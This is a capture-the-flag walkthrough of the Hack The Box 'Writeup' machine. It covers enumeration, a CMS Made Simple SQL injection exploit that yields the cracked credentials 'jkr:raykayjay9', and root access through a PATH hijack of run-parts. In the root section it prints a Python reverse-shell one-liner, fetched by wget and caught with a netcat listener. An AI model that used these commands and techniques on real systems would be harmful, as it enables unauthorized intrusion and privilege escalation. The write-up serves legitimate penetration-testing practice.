


---
search:
  exclude: true
---
# Writeup Writeup

## Introduction :

Writeup is an easy Linux box that was released back in June 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Writeup]
      → nmap -F 10.10.10.138
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-15 08:42 GMT
      Nmap scan report for writeup.htb (10.10.10.138)
      Host is up (0.098s latency).
      Not shown: 98 filtered ports
      PORT   STATE SERVICE
      22/tcp open  ssh
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 3.30 seconds
    

Looks like we have 2 ports opened, let's investigate the 80th port.
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Writeup]
    → nmap -sCV -p80 10.10.10.138
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-15 08:42 GMT
    Nmap scan report for writeup.htb (10.10.10.138)
    Host is up (0.094s latency).
    
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.25 ((Debian))
    | http-robots.txt: 1 disallowed entry
    |_/writeup/
    |_http-title: Nothing here yet.
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 10.60 seconds
    

let's add writeup.htb to our /etc/hosts 
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Writeup]
      → echo '10.10.10.138 writeup.htb' >> /etc/hosts
    

## **Part 2 : Getting User Access**

Taking a first glance at the webpage on port 80, we use the curl command with the -sk flags.
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Writeup]
      → curl -sk http://writeup.htb/
    
      ########################################################################
      #                                                                      #
      #           *** NEWS *** NEWS *** NEWS *** NEWS *** NEWS ***           #
      #                                                                      #
      #   Not yet live and already under attack. I found an   ,~~--~~-.      #
      #   Eeyore DoS protection script that is in place and   +      | |\    #
      #   watches for Apache 40x errors and bans bad IPs.     || |~ |`,/-\   #
      #   Hope you do not get hit by false-positive drops!    *\_) \_) `-'   #
      #                                                                      #
      #   If you know where to download the proper Donkey DoS protection     #
      #   please let me know via mail to jkr@writeup.htb - thanks!           #
      #                                                                      #
      ########################################################################
    
      aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
      88888888888888888888888888888888888888888888888888888
      8888"""""""""""""""8888888888888888888888888888888888
      8888               8888888888888888888888888888888888
      8888  HTB NOTES    8888888888888888888888888888888888
      8888               888888888888888888888888888888888"
      8888aaaaaaaaaaaaaaa888888888888888888888888888888888a
      88888888888888888888888888888888888888888888888888888
      88888888888888888888888888888888888888888888888888888
      88888888888888888888888888888888888888888888888888888
      88888888888888888888888":::::"88888888888888888888888
      888888888888888888888::;gPPRg;::888888888888888888888
      88888888888888888888::dP'   `Yb::88888888888888888888
      88888888888888888888::8)     (8::88888888888888888888
      88888888888888888888;:Yb     dP:;88( )888888888888888
      888888888888888888888;:"8ggg8":;888888888888888888888
      88888888888888888888888aa:::aa88888888888888888888888
      88888888888888888888888888888888888888888888888888888
      88888888888888888888888888888888888888888888888888888
      88888888888888888888888888"88888888888888888888888888
      8888888888888888888888888:::8888888888888888888888888
      8888888888888888888888888:::8888888888888888888888888
      8888888888888888888888888:::8888888888888888888888888
      8888888888888888888888888:::8888888888888888888888888
      8888888888888888888888888:::8888888888888888888888888
      88888888888888888888888888a88888888888888888888888888
      """""""""""""""""""' `"""""""""' `"""""""""""""""""""
                                    (c) by Normand Veilleux
    
    
      I am still searching through my backups so there is
      nothing here yet. I am preparing go-live of my own
      app.hackthebox.eu write-up page soon. Stay tuned!
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Writeup]
      → dirsearch -u http://writeup.htb/ -e txt,php,html,js -t 50
    

nothing too interesting there, apart from some information about "Apache 40x", let's run dirsearch to see which directories we can find. 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Writeup]
      → dirsearch -u http://writeup.htb/ -e txt,php,html,js -t 50
      git clone https://github.com/maurosoria/dirsearch.git
      dirsearch -u  -e  -t 50 -x 500
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: txt, php, html, js | HTTP method: get | Threads: 50 | Wordlist size: 7126
    
      Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-02-15_08-47-45.log
    
      Target: http://writeup.htb/
    
      [08:47:45] Starting:
      0.84% - Last request to: .bzr/README
    

looks like this was a bad idea, the server seems to have blacklisted us. Instead we will use the nikto command.
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Writeup]
      → nikto -h http://10.10.10.138/
      - Nikto v2.1.6
      ---------------------------------------------------------------------------
      + Target IP:          10.10.10.138
      + Target Hostname:    10.10.10.138
      + Target Port:        80
      + Start Time:         2020-02-15 08:52:24 (GMT0)
      ---------------------------------------------------------------------------
      + Server: Apache/2.4.25 (Debian)
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + ERROR: Error limit (20) reached for host, giving up. Last error: opening stream: can't connect (timeout): Transport endpoint is not connected
    + Scan terminated:  20 error(s) and 3 item(s) reported on remote host
    + End Time:           2020-02-15 08:53:16 (GMT0) (52 seconds)
    ---------------------------------------------------------------------------
    + 1 host(s) tested
    
    

nothing too interesting there, nikto seems to timeout on the host, let's check robots.txt 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Writeup]
      → curl -sk http://10.10.10.138/robots.txt
      #              __
      #      _(\    |@@|
      #     (__/\__ \--/ __
      #        \___|----|  |   __
      #            \ }{ /\ )_ / _\
      #            /\__/\ \__O (__
      #           (--/\--)    \__/
      #           _)(  )(_
      #          `---''---`
    
      # Disallow access to the blog until content is finished.
      User-agent: *
      Disallow: /writeup/
    

checking out http://10.10.10.138/writeup/ , we are greeted with some sort of a menu, let's look at it's source menu for anything fancy. 

    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Writeup]
      → curl -sk http://10.10.10.138/writeup/ | grep CMS
      <****meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." /****>

looks like we have a CMS Made Simple from 2004 ! let's run a quick searchsploit command to see which exploits are available for us 
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Writeup]
    → searchsploit CMS Made Simple | grep Injection
    CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection | exploits/php/webapps/29941.txt
    CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection   | exploits/php/webapps/4810.txt
    CMS Made Simple < 2.2.10 - SQL Injection               | exploits/php/webapps/46635.py
    

exploit number 46635.py looks interesting, let's locate it and paste it in our current folder. 
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Writeup]
    → locate 46635.py
    /usr/share/exploitdb/exploits/php/webapps/46635.py
    
    λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Writeup]
    → cp /usr/share/exploitdb/exploits/php/webapps/46635.py .
    
    λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Writeup]
    → nano 46635.py
    

Looking at the exploit we're going to use, we'll need to specify a few flags : -u for the URL --crack and -w for wordlist
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Writeup]
    → python 46635.py -u http://10.10.10.138/writeup --crack -w /usr/share/wordlists/rockyou.txt
    
      [+] Salt for password found: 5a599ef579066807
      [+] Username found: jkr
      [+] Email found: jkr@writeup.htb
      [+] Password found: 62def4866937f08cc13bab43bb14e6f7
      [+] Password cracked: raykayjay9
    
    

looks like our exploit worked ! we now have credentials to work with : jkr:raykayjay9 , let's try to get in using ssh.
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Writeup]
      → ssh jkr@writeup.htb
      The authenticity of host 'writeup.htb (10.10.10.138)' can't be established.
      ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added 'writeup.htb,10.10.10.138' (ECDSA) to the list of known hosts.
      jkr@writeup.htb's password:
      Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux
    
      The programs included with the Devuan GNU/Linux system are free software;
      the exact distribution terms for each program are described in the
      individual files in /usr/share/doc/*/copyright.
    
      Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
      permitted by applicable law.
      jkr@writeup:~$ uname -a
      Linux writeup 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
      jkr@writeup:~$ cat /home/jkr/user.txt
    
      d4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

## **Part 3 : Getting Root Access**

to escalate privileges to the root user, let's see what we can use to get a reverse shell onto the box
    
    
      jkr@writeup:~$ which python
      /usr/bin/python
    

looks like we can use python to do so, let's ready our reverse shell in python 

_Terminal 1:_
    
    
      λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Writeup]
    → cat nihilist.py
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.14.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    
    λ root [ 10.10.14.10/23 ] [nihilist/_HTB/Writeup]
    → python -m SimpleHTTPServer 8080
    Serving HTTP on 0.0.0.0 port 8080 ...
    

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Writeup]
    → nc -lvnp 1234
    listening on [any] 1234 ...
    

_Terminal 3:_
    
    
      jkr@writeup:~$ wget 10.10.14.10:8080/nihilist.py -O /usr/local/bin/run-parts
    --2020-02-15 03:53:00--  http://10.10.14.10:8080/nihilist.py
    Connecting to 10.10.14.10:8080... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 240 [text/plain]
    Saving to: ‘/usr/local/bin/run-parts’
    
    /usr/local/bin/run-parts      100%[===============================================>]     240  --.-KB/s    in 0s
    
    2020-02-15 03:53:00 (52.9 MB/s) - ‘/usr/local/bin/run-parts’ saved [240/240]
    
    jkr@writeup:~$ chmod +x /usr/local/bin/run-parts
    
    

Each time a user logs in, a process sets the PATH for that user and run-parts binary since we are part of the STAFF group, we can place our own run-parts binary in /usr/local/bin, cron will execute our own run-parts next time a new user logs in. And all that's left for us to do, is to log in another time as jkr, and it will activate our nihilist.py reverse shell and that way we will catch the incoming reverse shell connection through our second terminal. 

_Terminal 5:_
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Writeup]
      → ssh jkr@10.10.10.138
      jkr@10.10.10.138's password:
    

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Writeup]
    → nc -lvnp 1234
    listening on [any] 1234 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.138] 57070
    bash: cannot set terminal process group (2193): Inappropriate ioctl for device
    bash: no job control in this shell
    root@writeup:/# cat /root/root.txt
    cat /root/root.txt
    
    eeXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

## **Conclusion**

Here we can see the progress graph :

